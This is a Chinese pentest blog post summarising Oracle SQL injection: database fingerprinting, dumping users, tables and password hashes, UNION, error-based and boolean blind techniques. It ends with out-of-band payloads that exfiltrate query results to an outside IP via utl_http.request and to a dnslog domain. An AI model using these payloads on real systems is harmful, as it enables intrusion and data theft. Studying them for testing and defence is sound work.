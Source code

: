 +++
title = "SQL注入tips(Oracle)"
topics = ["Pentest"]
tags = ["injection","oracle"]
description = "前几天渗透测试时遇到了Oracle的注入，这里简单总结一下Oracle中的SQL注入常见的利用手法：联合查询注入、报错型注入、布尔型注入、无返回值的盲注"
date = "2019-01-04T20:23:35+08:00"
draft = false
+++

<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-04-10 10:45:01
 * @LastEditTime: 2019-08-12 11:14:05
 -->
### 0x00 判断数据库类型
* Oracle有一些自带的表：dual、user_tables
    * ```id=45 and (select count(*) from user_tables)>0--```
    * ```id=45 and (select count(*) from dual)>0--```

* 利用自带的一些函数：譬如utl_http.request 这些
* 利用Oracle的字符连接符：CHR(97)||CHR(110)||CHR(100)||CHR(32)||CHR(49)||CHR(61)||CHR(49)

### 0x01 基本信息获取
* 查看sid
```
select instance_name from v$instance;
```

* 查看数据库版本：
```
select banner from v$version where rownum=1;
select banner from sys.v_$version where rownum=1;
```

* 查看用户：
```
select user from dual; --当前用户
select username from user_users; --当前用户
select username from all_users; --查看所有用户
select username from dba_users; --查看所有用户(需要有权限)
```

* 查看当前用户角色：
```
select role from session_roles;
```

* 查看数据库用户名和密码：
```
select name, password, astatus from sys.user$; --需要权限
```

* 通过注入获取数据
    ```
    --列database
    select global_name from global_name;
    select sys.database_name from dual;
    select name from v$database;
    select instance_name from v$instance;
    --列owner
    select distinct owner from all_tables;
    --列owner的tables
    select table_name from all_tables where owner='UTEST';
    --列tables的columns
    select column_name from all_tab_columns where table_name='TUSER';
    select column_name from all_tab_cols where table_name='TUSER';


    --列tablespace
    select tablespace_name from user_tablespaces;
    --列tablespace的tables
    select table_name from user_tables where tablespace_name='DB_TEST_DATA';
    --列tables的columns
    select column_name from user_tab_columns where table_name='TUSER';
    ```

### 0x02 UNION query注入

* 存在注入
![70](/img/post/20190103-162239.png)

* 判断列数
![40](/img/post/20190103-162620.png)
![80](/img/post/20190103-162720.png)

* 尝试union select
![60](/img/post/20190103-163005.png)
依次判断字段类型(下图判断出第二个字段是字符型)
![80](/img/post/20190103-163324.png)
![50](/img/post/20190103-163228.png)

* 得到表名  
得到表的个数
![75](/img/post/20190103-164019.png)
得到第一个表的表名
![75](/img/post/20190103-163610.png)
得到第二个表的表名
![75](/img/post/20190103-164519.png)

* 得到第一个表的字段
![80](/img/post/20190103-165302.png)

* 得到第一个表的数据
![80](/img/post/20190103-170336.png)

### 0x03 error-based注入
* ctxsys.drithsx.sn
![60](/img/post/20190104-160714.png)

* dbms_xdb_version.checkin
![80](/img/post/20190104-161325.png)

* dbms_xdb_version.makeversioned
![85](/img/post/20190104-161521.png)

* dbms_xdb_version.uncheckout
![85](/img/post/20190104-161727.png)

* dbms_utility.sqlid_to_sqlhash
![85](/img/post/20190104-161838.png)

* utl_inaddr.get_host_name(在11g以后需要是超级用户或已授予网络访问权限的用户才能使用)
![](/img/post/20190104-203238.png)

### 0x04 boolean-based blind注入
* case...when...
![65](/img/post/Xnip2019-08-12_11-12-32.png)
![65](/img/post/Xnip2019-08-12_11-13-46.png)

* decode

decode(条件，值1，值1结果，值2，值2结果，。。。值n，值n结果，默认值)

条件和那个值相等就返回那个值的结果
![65](/img/post/20190104-165737.png)
![65](/img/post/20190104-165817.png)

* instr

instr(字符串，子串)

从一个字符串中查找指定子串的位置，这里一直将位置置为1
![55](/img/post/20190104-201134.png)
![55](/img/post/20190104-201157.png)
![55](/img/post/20190104-201216.png)

### 0x05 无回显注入
* web服务接收结果
```
select * from utest.msg where id=2 and 1=utl_http.request('http://59.108.35.198:8888/'||(select user from dual));
```

* dns服务接收结果
```
select * from utest.msg where id=2 and (select utl_inaddr.get_host_address((select user from dual)||'.dnslog.wyb0.com') from dual) is not null;
```

<br>
#### Reference(侵删)：
* [https://www.freebuf.com/articles/web/5411.html](https://www.freebuf.com/articles/web/5411.html?_blank)
* [https://www.iswin.org/2015/06/13/hack-oracle/](https://www.iswin.org/2015/06/13/hack-oracle/?_blank)
* [https://www.freebuf.com/column/146464.html](https://www.freebuf.com/column/146464.html?_blank)

